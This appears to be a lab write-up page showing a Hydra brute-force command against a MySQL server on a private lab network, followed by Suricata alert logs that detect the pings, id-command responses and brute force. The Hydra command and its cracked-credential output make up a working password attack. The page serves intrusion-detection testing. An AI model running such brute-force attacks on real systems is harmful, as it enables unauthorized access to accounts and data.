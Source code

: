 `the out-of-the box ruleset picks this up`

```code
vagrant@red:~$ sudo hydra -s 3306 -l toor -P SecLists/Passwords/xato-net-10-million-passwords-100000.txt mysql://172.30.0.15
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-04 07:35:34
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100000 login tries (l:1/p:100000), ~25000 tries per task
[DATA] attacking mysql://172.30.0.15:3306/
[3306][mysql] host: 172.30.0.15   login: toor   password: summer
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-04 07:35:35
```

```code
[walt@companyrouter ~]$ sudo tail -f /var/log/suricata/fast.log
01/03/2024-16:16:15.168154  [**] [1:123456782:1] BENNY2 ICMP Ping extern [**] [Classification: (null)] [Priority: 3] {ICMP} 192.168.100.166:8 -> 172.30.0.15:0
01/03/2024-16:16:15.168154  [**] [1:123456783:8] BENNY3 [**] [Classification: Misc activity] [Priority: 3] {ICMP} 192.168.100.166:8 -> 172.30.0.15:0
01/03/2024-16:16:16.170086  [**] [1:2100366:8] GPL ICMP_INFO PING *NIX [**] [Classification: Misc activity] [Priority: 3] {ICMP} 192.168.100.166:8 -> 172.30.0.15:0
01/03/2024-16:16:16.170086  [**] [1:123456782:1] BENNY2 ICMP Ping extern [**] [Classification: (null)] [Priority: 3] {ICMP} 192.168.100.166:8 -> 172.30.0.15:0
01/03/2024-16:16:16.170086  [**] [1:123456783:8] BENNY3 [**] [Classification: Misc activity] [Priority: 3] {ICMP} 192.168.100.166:8 -> 172.30.0.15:0
01/04/2024-07:17:26.624704  [**] [1:2100498:7] GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 13.225.239.80:80 -> 192.168.100.253:53260
01/04/2024-07:17:26.624704  [**] [1:123456784:1] BENNY4 GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 13.225.239.80:80 -> 192.168.100.253:53260
01/04/2024-07:23:55.653237  [**] [1:2019284:3] ET ATTACK_RESPONSE Output of id command from HTTP server [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 172.30.20.10:80 -> 192.168.100.1:20704
01/04/2024-07:23:55.653237  [**] [1:2100498:7] GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 172.30.20.10:80 -> 192.168.100.1:20704
01/04/2024-07:23:55.653237  [**] [1:123456784:1] BENNY4 GPL ATTACK_RESPONSE id check returned root [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 172.30.20.10:80 -> 192.168.100.1:20704
01/04/2024-07:35:35.899351  [**] [1:2010937:3] ET SCAN Suspicious inbound to mySQL port 3306 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.100.166:43086 -> 172.30.0.15:3306
01/04/2024-07:35:35.899356  [**] [1:2010937:3] ET SCAN Suspicious inbound to mySQL port 3306 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.100.166:43102 -> 172.30.0.15:3306
01/04/2024-07:35:35.899356  [**] [1:2010937:3] ET SCAN Suspicious inbound to mySQL port 3306 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.100.166:43110 -> 172.30.0.15:3306
01/04/2024-07:35:35.899357  [**] [1:2010937:3] ET SCAN Suspicious inbound to mySQL port 3306 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.100.166:43116 -> 172.30.0.15:3306
01/04/2024-07:35:35.902730  [**] [1:2010937:3] ET SCAN Suspicious inbound to mySQL port 3306 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.100.166:43122 -> 172.30.0.15:3306
01/04/2024-07:35:35.944470  [**] [1:2010494:4] ET SCAN Multiple MySQL Login Failures Possible Brute Force Attempt [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.30.0.15:3306 -> 192.168.100.166:43182
```